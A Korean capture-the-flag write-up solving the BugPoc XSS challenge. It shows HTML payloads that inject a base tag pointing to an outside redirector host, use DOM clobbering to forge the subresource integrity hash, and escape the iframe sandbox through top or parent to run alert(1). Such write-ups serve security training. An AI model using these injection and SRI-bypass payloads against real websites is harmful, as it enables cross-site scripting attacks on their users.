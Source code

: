 ![](https://github.com/wjddnjs33/Poc/blob/main/wargame/XSS%20Challenge%20in%20BugPoc/images/9.png?raw=true)

`/files/analytics/js/frame-analytics.js`의 값을 확인 해보면 위와 같다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/XSS%20Challenge%20in%20BugPoc/images/8.png?raw=true)

그리고 base 태그를 이용해서 스크립트를 삽입 한 후에는 `frame-analytics.js`의 값이 alert(1)로 변조가 된 것을 볼 수 있다. 

```
openssl dgst -sha384 -binary FILENAME.js | openssl base64 -A
```

그럼 `frame-.js`의 파일 값이 변조가 되었다고 왜 SRI에 걸리냐고 궁금해 할 수도 있다. 이는 Hash를 생성하는 방법을 보면 알다시피 특정 파일 값을 기준으로 hash 값을 생성한다. 즉, 문제에서는 alert(1)로 변조 되기 전에 파일 값으로 hash 값을 생성해서 사용하고 있는데, 우리가 해당 파일의 값을 alert(1)로 변조하였기 때문에 hash 값 자체가 달라지므로 SRI에 걸리게 된다.

```
fileIntegrity.value
```

하지만 js 단에서 Integrity 값을 가져 올 때, 위와 같이 값을 가져오게 된다. 하지만 우리는 해당 값으로 고유의 hash 값을 넣어줘야 하는데 이는 `Dom Clobbering` 기법을 이용해서 처리할 수 있다.

```html
<output id="fileIntegrity">Hello Pocas</output>
<script>
    alert(fileIntegrity.value);
</script>
```
![](https://github.com/wjddnjs33/Poc/blob/main/wargame/XSS%20Challenge%20in%20BugPoc/images/10.png?raw=true)

위와 같이 코드를 올리고 실행하면 `fileIntegrity.value`의 값으로 `Hello Pocas`가 들어가는 것을 볼 수 있다.

```html
</title><output id="fileIntegrity">Hello Pocas</output>
```

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/XSS%20Challenge%20in%20BugPoc/images/11.png?raw=true)

그래서 위 페이로드를 작성해서 전달해주고, 콘솔 창에서 fileIntegrity.value를 입력해보면 우리가 입력한 고유의 값이 박힌 것을 볼 수 있다.

```html
</title><BASE HREF="https://nq5h16dpmbg2.redir.bugpoc.ninja"><output id="fileIntegrity">bhHHL3z2vDgxUt0W3dWQOrprscmda2Y5pLsLg4GF%2bpI=</output>
```

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/XSS%20Challenge%20in%20BugPoc/images/12.png?raw=true)

그래서 `Dom Clobbering` 기법을 이용해서 fileIntegrity의 값을 변조해주니 SRI도 잘 우회한 것을 볼 수 있다. 하지만 위와 같이 `Sandbox` 설정에 의해서 alert() 함수가 실행이 되지 않는 것을 볼 수 있다. 하지만 이 `Sandbox`는 현재 Iframe에만 적용이 되어 있기 때문에 `top`, `parent` 돔의 참조해서 alert()를 끌어와 사용하면 쉽게 우회할 수 있다.

```html
</title><BASE HREF="https://p93yp8ell2os.redir.bugpoc.ninja"><output id="fileIntegrity">pUo1a+NaJwmvkDH8uSo6a1Z+emeQfamsHK2k52tjpTE=</output>
```

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/XSS%20Challenge%20in%20BugPoc/images/13.png?raw=true)

